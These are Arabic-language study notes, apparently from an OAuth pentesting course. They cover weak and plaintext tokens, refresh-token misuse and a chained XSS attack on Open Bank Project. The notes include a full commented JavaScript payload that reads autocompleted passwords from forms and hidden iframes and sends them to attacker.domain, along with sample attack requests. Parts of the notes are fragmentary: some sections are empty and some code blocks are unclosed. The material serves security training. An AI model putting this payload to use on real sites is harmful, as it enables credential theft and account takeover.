


# 🎓 الجزء 12: OAuth Attacks المتقدمة + السيناريو الواقعي
## Slides 169 → 180

---

## Slide 169-170: هجمة الـ Weak Handle-Based Access/Refresh Tokens
### سلايد 169-170:

### 5. Weak Handle-Based Access and Refresh Tokens

### إيه المشكلة؟

لو الـ Access Tokens أو الـ Refresh Tokens **ضعيفة** (عشوائية مش كافية) — المهاجم يقدر **يخمنها** أو يعمل عليها Brute Force على الـ Resource Server أو الـ Token Endpoint!

### إزاي بنختبر:

```
الخطوات:

1. حدد مكان الـ Token Endpoint:
   → معظم الخوادم اللي بتدعم OpenID Connect بتنشر الـ Endpoints في:
   https://[server]/.well-known/openid-configuration
   أو:
   https://[server]/.well-known/oauth-authorization-server

2. اعمل Requests بـ Authorization Codes أو Refresh Tokens:
   POST /token HTTP/1.1
   Host: gallery:3005
   code=9&redirect_uri=http://photoprint:3000/callback
   &grant_type=authorization_code
   &client_id=clientapp&client_secret=secret

3. اجمع عدة Access Tokens

4. حلل العشوائية بتاعتها في Burp Sequencer:
   → لو ضعيفة = Finding!
   → لو قوية = آمن

5. لو عندك Client Secret — جرب Brute Force على الـ Tokens مباشرة
```

---

## Slide 171: هجمة الـ Insecure Token Storage
### سلايد 171:

### 6. Insecure Storage of Handle-Based Tokens

### إيه المشكلة؟

لو الـ Tokens متخزنة كـ **Plain Text** في الـ Database — أي حد يقدر يوصل للـ Database (عن طريق SQL Injection مثلاً) يسرق كل الـ Tokens!

### إزاي بنتحقق:


1.    (Black Box):
← لو لقيت SQL/NoSQL Injection ← استخرج الـ Tokens من الـ Database
← لو طلعت Plain Text = Finding!
و اكيد يعني لو فيه sqli يبقي فل الفل وتبلغها 
بالعقل مش هبلغ ان الtokens متخزنة من غير هاش و اسيب الsqli 
بس هو الي مكتوب كدا في الpdf ولله 

2. (Code Review): 
← شوف الكود: الـ Tokens بتتخزن إزاي؟
← لو Plain Text = Finding
← المفروض تكون Hashed (زي bcrypt أو SHA-256)
ما علينا يعني 

### الفرق:
```
❌ تخزين ضعيف:
tokens_table:
| token_id | access_token           | user_id |
|----------|------------------------|---------|
| 1        | "sk_live_abc123xyz"    | 42      |
← أي SQL Injection = كل الـ Tokens مسروقة!

✅ تخزين آمن:
tokens_table:
| token_id | token_hash                          | user_id |
|----------|-------------------------------------|---------|
| 1        | "$2b$12$LJ3Ux..." (bcrypt hash)     | 42      |
← حتى لو اتسرقت مفيش فايدة!
```

---

## Slide 172: هجمة الـ Refresh Token Not Bound to Client
### سلايد 172:

### 7. Refresh Token Not Bound to Client

### إيه المشكلة؟

لو الـ Refresh Token **مش مربوط** بالـ Client اللي طلبه — Client خبيث يقدر يستخدمه عشان ياخد Access Token جديد!

```http
# الـ Refresh Token اتولد لـ Client A (شرعي):
Refresh Token: rt_abc123 → مربوط بـ client_id=photoprint

# المهاجم بيستخدمه مع Client B (خبيث):
POST /token HTTP/1.1
Host: auth-server.com

refresh_token=rt_abc123
&grant_type=refresh_token
&client_id=malicious_app        ← Client مختلف!
&client_secret=malicious_secret

# لو السيرفر أعطى Access Token = Finding! 
```

> **💡 ملاحظة:** الهجمة دي أخطر لو التطبيق بيسمح بـ Automatic Client Registration — المهاجم يسجل Client جديد ويستخدمه!

---

## Slide 173: عنوان القسم — OAuth Attack Scenario 2
### سلايد 173:

خلينا نشوف **سيناريو هجوم واقعي** — ده مبني على ثغرة حقيقية تم اكتشافها أثناء Pentesting لمشروع **Open Bank Project (OBP)**.
مش هعرف اشرحه اوي لان فيه screen shots و لو حطيتها هنا هاخد بان من ine 
---

## Slide 174: مقدمة السيناريو
### سلايد 174:

### OAuth Attack Scenario — Chaining Multiple Vulnerabilities

### السيناريو:

> أثناء اختبار أمني لنظام **Open Bank Project** — وهو نظام مصرفي مفتوح المصدر — اكتشفنا إن الـ OAuth Implementation كان **النقطة الوحيدة الضعيفة** في التطبيق. باقي التطبيق كان بيعمل Sanitization ممتاز لمدخلات المستخدم.

### الثغرات اللي تم ربطها مع بعض (Chaining):




### Insecure Storage vs Secure Storage



**شرح الـ Diagram:**
ربط عدة ثغرات مع بعض عشان نوصل لنتيجة أخطر. بدأنا بـ XSS في OAuth → حملنا JavaScript → عملنا iframe مخفي → سرقنا credentials من Autocomplete → استلمناها عبر Netcat.

---

## Slide 175: الخطوة 0 — اكتشاف الـ XSS
### سلايد 175:

### Step 0: اكتشاف Reflected XSS في OAuth

---

## أولاً: شرح سيناريو الهجوم (الـ Steps)

### الخطوة 1: حقن الـ XSS (نقطة البداية)
الهاكر لقى ثغرة XSS في صفحة تابعة للموقع (OBP)، وغالباً الثغرة دي كانت في الـ OAuth Flow (مثلاً باراميتر زي `redirect_uri` أو `state` مش بيتعمله فلتَرة). عن طريق الثغرة دي، قدر يخلي المتصفح بتاع الضحية يحمل سكريبت خبيث (مكتوب بـ jQuery) من سيرفر المهاجم. كده الهاكر بقى معاه تحكم كامل في الصفحة دي عند الضحية.

> **🔴 من واقع الـ Pentesting:** دي tip مهمة — الـ OAuth endpoints غالباً بتبقى مكتوبة بشكل مستقل عن باقي التطبيق. فممكن التطبيق يكون آمن بس الـ OAuth implementation يكون ضعيف. دايماً افحص الـ OAuth endpoints بشكل مستقل.

### الخطوة 2: الـ iframe المخفي (استغلال الـ SAMEORIGIN)
الهاكر عايز يسرق الباسورد، بس الضحية مش فاتح صفحة اللوجين، الضحية فاتح الصفحة اللي فيها الـ XSS.
فالهاكر عمل إيه؟ خلى سكريبت الـ XSS يكريت iframe مخفي (شاشة جوه شاشة) ويحمل جواه صفحة الـ Login بتاعة الموقع. **ليه الموقع سمح بكده؟** لأن المطور كان عامل إعداد الـ Header بتاع `X-Frame-Options` على `SAMEORIGIN`. ده معناه إن صفحة اللوجين بترفض تتعرض جوه iframe إلا لو الـ iframe ده بيتعرض في نفس الموقع. وبما إن الـ XSS شغال على نفس الموقع، المتصفح سمح بفتح اللوجين جوه الـ iframe المخفي!

### الخطوة 3: سرقة الباسورد (استغلال الـ Autocomplete)
دلوقتي اللوجين فتحت مخفية في الخلفية. المتصفح بتاع الضحية (زي Chrome أو Firefox) متسجل عليه الباسورد، فعمل Autocomplete (ملء تلقائي) لليوزر نيم والباسورد جوه الـ iframe المخفي من غير ما الضحية يحس. وبما إن المطور مكنش لاغي الـ Autocomplete، سكريبت الـ XSS وصل لل الـ iframe، وقرأ الباسورد المكتوب.

### الخطوة 4: (Exfiltration)
الباسورد دلوقتي بقى في إيد السكريبت. السكريبت راح باعت الباسورد ده لسيرفر الهاكر (اللي كان فاتح Netcat Listener بيسمع ومستني الداتا توصله).

### خطوة الـ Bonus:
الهاكر مكتفاش بالباسورد؛ استخدم نفس خدعة الـ iframe المخفي عشان يفتح صفحة "Get API Key" (لأنها برضه `SAMEORIGIN`)، واستغل ثغرة CSRF موجودة فيها عشان يكريت API Key جديد ويبعته لنفسه، وبكده بقى معاه أكسس دائم على حساب الضحية.

---

## ثانياً: شرح الكود الخبيث (JavaScript Payload)

الكود ده مكتوب بطريقة مضغوطة (Minified) عشان مساحته تكون صغيرة ويبقى سهل حقنه في الثغرة. وظيفته الأساسية: "لف على كل حتة في الصفحة، دور على أي حقل باسورد، اسرق قيمته، وابعته للهاكر."

تعالى نفككه عشان تفهمه:

```javascript
// دي الدالة الرئيسية اللي بتشغل الهجوم
function r() {
    var g = 0; 
    var x = false;
    
    // 1. بيدور في الفورمات اللي في الصفحة الرئيسية
    x = z(document.forms); 
    g = g + 1;
    
    // 2. بيلف على كل الـ iframes الموجودة في الصفحة (window.frames)
    var w = window.frames;
    for(var k = 0; k < w.length; k++) {
        // بيمسك كل iframe ويدور في الفورمات اللي جواه
        x = ((x) || (z(w[k].document.forms))); 
        g = g + 1;
    }
    
    // لو ملقاش أي باسورد بيطلع رسالة (عشان الهاكر يتأكد السكريبت شغال ولا لأ)
    if (!x) alert('Password not found in '+ g +' forms');
}

// الدالة دي بتاخد الفورمات وتلف على العناصر اللي جواها (Inputs)
function z(f) {
    var b = false;
    for (var i = 0; i < f.length; i++) {
        var e = f[i].elements;
        for (var j = 0; j < e.length; j++) {
            // بتبعت كل Input للدالة h عشان تفحصه
            if (h(e[j])) { b = true; }
        }
    }
    return b;
}

// دي أهم دالة (دالة السرقة)
function h(ej) {
    var s = '';
    // بتسأل: هل الحقل ده نوعه "password"؟
    if (ej.type == 'password') {
        // لو أيوة، هات القيمة اللي جواه (اللي المتصفح حطها بالـ Autocomplete)
        s = ej.value;
        
        if (s != '') { 
            // التصدير: بيعمل Redirect للصفحة لسيرفر الهاكر وبيحط الباسورد في اللينك
            // [http://attacker.domain/index.php?pass=MySecretPassword](http://attacker.domain/index.php?pass=MySecretPassword)
            location.href = '[http://attacker.domain/index.php?pass=](http://attacker.domain/index.php?pass=)' + s;
        } else {
            alert('Password is blank');
        }
        return true;
    } 
}

// تشغيل الكود
var p = r();
---

## Slide 180: Bonus — CSRF Chain
### سلايد 180:

### Bonus Step: ربط مع CSRF

المهاجم كمان ربط الـ XSS مع ثغرة CSRF إضافية:

```
---

## 🎯 ملخص الجزء الثاني عشر

| المفهوم | الشرح |
|---------|-------|
| **Weak Tokens** | Access/Refresh Tokens ممكن تتخمن لو العشوائية ضعيفة |
| **Insecure Storage** | Tokens متخزنة Plain Text في Database — أي SQLi = كارثة |
| **Unbound Refresh Token** | Refresh Token مش مربوط بالـ Client — ممكن يتستخدم مع Client خبيث |
| **OAuth XSS Chaining** | XSS في OAuth + iframe + Autocomplete = سرقة Credentials |
| **Vulnerability Chaining** | ربط عدة ثغرات مع بعض = Impact أكبر بكتير |
| **الدروس** | OAuth endpoints لازم تتفحص مستقلة + دايماً فكر في الـ Chaining |

> **📝 الجزء الجاي (Session 13):** هندخل في **2FA Bypass** — أنواع الـ Two-Factor Authentication وإزاي المهاجم بيتخطاها.
